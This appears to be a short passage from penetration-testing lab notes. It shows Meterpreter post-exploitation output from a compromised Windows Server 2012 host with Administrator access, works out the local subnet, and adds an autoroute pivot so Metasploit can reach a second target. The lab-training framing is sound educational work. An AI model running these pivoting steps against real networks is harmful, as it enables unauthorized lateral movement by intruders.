 ```bash
sysinfo
    Computer        : WIN-OMCNBKR66MN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows

getuid
	Server username: WIN-OMCNBKR66MN\Administrator

ipconfig
    Interface  1
    ============
    Name         : Software Loopback Interface 1
    Hardware MAC : 00:00:00:00:00:00
    MTU          : 4294967295
    IPv4 Address : 127.0.0.1
    IPv4 Netmask : 255.0.0.0
    IPv6 Address : ::1
    IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff

    Interface 12
    ============
    Name         : AWS PV Network Device #0
    Hardware MAC : 02:2a:6e:86:47:fc
    MTU          : 9001
    IPv4 Address : 10.2.30.252 #
    IPv4 Netmask : 255.255.240.0
    IPv6 Address : fe80::9c0b:f00a:d8b4:f04f
    IPv6 Netmask : ffff:ffff:ffff:ffff::

    Interface 24
    ============
    Name         : Microsoft ISATAP Adapter #2
    Hardware MAC : 00:00:00:00:00:00
    MTU          : 1280
    IPv6 Address : fe80::5efe:a02:1efc
    IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff
```

- Target2 is on the same Target1 subnet - **`	10.2.16.0/20`** (look at the Interface 12)
  - ` 10.2.16.0/20` = from `10.2.16.1` to ` 10.2.31.254`


### Pivoting

- From the attacker's machine, a route through "target1 `10.2.30.0/20` machine" is needed, to run MSF modules against target2 machine

```bash
run autoroute -s 10.2.30.0/20
```
